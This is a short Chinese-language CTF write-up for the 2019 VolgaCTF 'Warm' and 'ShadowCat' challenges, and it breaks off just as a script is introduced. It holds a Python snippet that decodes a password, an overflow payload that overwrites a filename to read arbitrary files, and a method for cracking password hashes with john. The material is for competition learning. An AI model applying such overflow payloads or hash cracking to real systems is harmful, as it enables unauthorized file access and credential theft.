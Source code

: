 # 2019VolgaCTF & 2019SunshineCTF writeup

## VolgaCTF:

- warm/Shadow Cat/JOI

### Warm

这道题是 arm 架构下的，不过没什么区别。没有环境的话要先搭一下，直接连服务器做也可以。

先简单解个密：

```python
s=""
s+=chr(0x23^85);
s+= chr(ord(s[-1])^78)
s+= chr(ord(s[-1])^30)
s+= chr(ord(s[-1])^21)
s+= chr(ord(s[-1])^94)
s+= chr(ord(s[-1])^28)
s+= chr(ord(s[-1])^33)
s+= chr(ord(s[-1])^1)
s+= chr(ord(s[-1])^52)
s+= chr(ord(s[-1])^7)
s+= chr(ord(s[-1])^53)
s+= chr(ord(s[-1])^17)
s+= chr(ord(s[-1])^55)
s+= chr(ord(s[-1])^60)
s+= chr(ord(s[-1])^114)
s+= chr(ord(s[-1])^71)
p.sendline(s);

print(len(s))
print(s)
```

得到 `v8&3mqPQebWFqM?x`

程序很明显有溢出，进行覆盖可以读取任意文件，接下来就靠猜了...

文件名是 `sacred`

payload: `v8&3mqPQebWFqM?xpppppppppppppppppppppppppppppppppppppaaaaaaabbbbbxppppppppppppppppppppppppppppppppppsacred`

flag: `VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}`

## ShadowCat

用 john 进行破解，首先用默认的字典，发现破解速度极慢，破解出来的都是单字符，想想也是... 所以自己创建一个可打印字符的字典，使用 --wordlist 设置破解就好了，最后把破解得到的数据与密文对应的字符进行替换，得到 

脚本：
